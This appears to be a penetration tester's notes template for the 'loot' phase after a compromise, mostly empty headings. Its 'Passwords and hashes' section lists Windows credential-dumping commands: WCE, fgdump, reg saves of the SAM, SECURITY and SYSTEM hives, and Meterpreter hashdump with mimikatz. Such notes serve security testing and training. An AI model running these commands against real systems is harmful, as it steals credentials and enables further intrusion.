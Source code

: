 

------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```
